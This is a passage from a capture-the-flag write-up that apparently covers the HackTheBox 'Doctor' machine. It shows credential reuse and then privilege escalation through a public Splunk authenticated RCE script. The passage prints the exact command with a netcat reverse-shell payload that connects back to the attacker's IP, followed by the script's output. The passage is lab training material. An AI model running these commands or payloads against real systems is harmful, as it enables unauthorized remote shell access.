 We see a password reset request with the what looks like a possible password to me. So I try to change to user shaun using "Guitar123" and we are successful. We get the user flag. Next up is root. Lets finally try the Splunk port.

<img src="/images/doctor/splunk.png" width="1000">

When I click on the links it asked for creds and we can login using the the creds "shaun:Guitar123". But Even After logging in I can hardly make sense of anything as I have never worked on splunk before. But I did find an [Authenticated RCE exploit](https://github.com/cnotin/SplunkWhisperer2) for splunk.

Reading the exploit I understand that the script first authenticates using the creds and then creates a malicious splunk app which when run gives us the reverse shell. 

Using the script we get a shell as root.

```
python3 PySplunkWhisperer2_remote.py --host 10.10.10.209 --lhost 10.10.12.22 --username shaun --password Guitar123  --payload 'nc.traditional 10.10.12.22 1234 -e /bin/bash'

Running in remote mode (Remote Code Execution)
[.] Authenticating...
[+] Authenticated
[.] Creating malicious app bundle...
[+] Created malicious app bundle in: /tmp/tmp_4uihact.tar
[+] Started HTTP server for remote mode
[.] Installing app from: http://10.10.12.22:8181/
10.10.10.209 - - [05/Oct/2020 15:37:46] "GET / HTTP/1.1" 200 -
[+] App installed, your code should be running now!

Press RETURN to cleanup
```
